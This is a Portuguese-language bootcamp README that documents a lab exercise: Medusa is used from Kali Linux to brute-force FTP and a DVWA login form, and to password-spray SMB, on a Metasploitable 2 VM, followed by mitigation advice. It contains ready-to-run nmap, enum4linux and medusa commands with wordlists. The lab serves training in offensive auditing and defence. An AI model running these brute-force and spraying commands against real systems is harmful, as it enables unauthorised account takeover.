

# 🔥 Simulação de Ataques de Força Bruta com Kali Linux, Medusa e Metasploitable 2

Projeto desenvolvido como desafio do **Bootcamp Santander Cibersegurança 2025 (DIO)**, utilizando o Kali Linux como máquina atacante e o Metasploitable 2 como máquina vulnerável, para realizar ataques de força bruta em serviços reais (FTP, DVWA e SMB) usando a ferramenta **Medusa**.

Este repositório documenta todo o processo de configuração, execução dos testes, análise e recomendações de segurança.

---

## 📌 Sumário

- 🧩 Objetivo do Projeto
- 🧱 Arquitetura do Laboratório
- ⚙️ Configuração das VMs
- 🌐 Configuração de Rede (Host-Only)
- 🔍 Reconhecimento com Nmap
- 🛠️ Ataque 1 — Força Bruta FTP
- 🕸️ Ataque 2 — Força Bruta em Formulário Web DVWA]
- 📁 Ataque 3 — Password Spraying SMB
- 🛡️ Medidas de Mitigação
- 📂 Estrutura do Repositório
- 📸 Evidências

---

## 🧩 Objetivo do Projeto

- Demonstrar ataques de força bruta em ambiente controlado  
- Utilizar o **Medusa** para testar senhas de diferentes serviços  
- Criar wordlists simples para testes  
- Documentar de forma clara e profissional  
- Aplicar processos reais de auditoria ofensiva  
- Entender vulnerabilidades e como evitá-las  

Todo o laboratório é realizado **localmente**, sem qualquer exposição externa.

---

## 🧱 Arquitetura do Laboratório



### Componentes usados:

| VM | Função | IP (exemplo) |
|----|--------|---------------|
| **Kali Linux** | Atacante | 192.168.56.102 |
| **Metasploitable 2** | Alvo vulnerável | 192.168.56.101 |
| **DVWA** | Web app vulnerável | 192.168.56.101/dvwa |

---

## ⚙️ Configuração das VMs

### 🔸 Kali Linux
- Distribuição ofensiva
- Ferramentas usadas: Medusa, Nmap, Enum4linux
- Rede: Host-Only

### 🔸 Metasploitable 2
- VM vulnerável por design
- Serviços disponíveis:
  - FTP (21)
  - SSH (22)
  - Telnet (23)
  - SMB (139/445)
  - MySQL (3306)
  - HTTP (80)
- Credenciais padrão:

```
user: msfadmin
password: msfadmin
```

---

## 🌐 Configuração de Rede (Host-Only)

Ambas as VMs configuradas com:

```
Adaptador 1 → Host-Only Adapter
Nome: VirtualBox Host-Only Ethernet Adapter
```

O Host-Only deve estar com DHCP habilitado:

- `192.168.56.100` até `192.168.56.254`

Kali e Metasploitable devem estar na mesma faixa.

---

## 🔍 Reconhecimento com Nmap

Primeiro passo:

```bash
nmap -sV 192.168.56.101
```

Resultado esperado:

```
21/tcp open  ftp
22/tcp open  ssh
23/tcp open  telnet
80/tcp open  http
139/tcp open netbios
445/tcp open microsoft-ds
3306/tcp open mysql
```

---

# 🛠️ Ataque 1 — Força Bruta FTP

### Criar wordlist de usuários:

```bash
cat <<EOF > users.txt
user
msfadmin
admin
root
EOF
```

### Criar wordlist de senhas:

```bash
cat <<EOF > passwords.txt
123
212121
msfadmin
password
EOF
```

### Executar o ataque:

```bash
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp
```

### Resultado esperado:

```
ACCOUNT FOUND: [ftp] Host:192.168.56.101 User:msfadmin Password:msfadmin
```

---

# 🕸️ Ataque 2 — Força Bruta em Formulário Web DVWA

Acesse:

```
http://192.168.56.101/dvwa
```

Configurar:

- **DVWA Security → LOW**

### Ataque:

```bash
medusa -h 192.168.56.101  -U users.txt  -P passwords.txt  -M http  -m FORM:"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"
```

### Resultado:
Medusa identifica a combinação válida.

---

# 📁 Ataque 3 — Password Spraying SMB

### Enumeração de usuários:

```bash
enum4linux -a 192.168.56.101 | grep 'user'
```

### Password Spraying:

```bash
medusa -h 192.168.56.101 -U users.txt -p msfadmin -M smbnt
```

Esse ataque tenta **uma senha para vários usuários ao mesmo tempo**.

---

# 🛡️ Medidas de Mitigação

- Implementar **MFA/2FA**
- Configurar **bloqueio após tentativas falhas**
- Senhas fortes e rotativas
- Fail2ban para SSH/FTP
- Remover serviços desnecessários (FTP, Telnet)
- Usar CAPTCHA em formulários
- Ativar IDS/IPS
- Restringir tentativas por IP

---

# 📂 Estrutura do Repositório

```
📁 simulando_ataque_medusa/
│
├── README.md
├── users.txt
├── passwords.txt
├── scripts/
│   └── spray_smb.sh
└── images/
    ├── ftp_success.png
    ├── dvwa_bruteforce.png
    └── smb_spray.png
```

---

# 📸 Evidências

As evidências do laboratório serão adicionadas na pasta `/images`, incluindo:

- Resultado do Nmap  
- Ataque FTP bem sucedido  
- Acesso ao DVWA  
- Captura do SMB Spraying  

---

## 🧑‍💻 Autor

Projeto desenvolvido por **Dherek Schaberle**  
Bootcamp Santander Cibersegurança 2025 – DIO
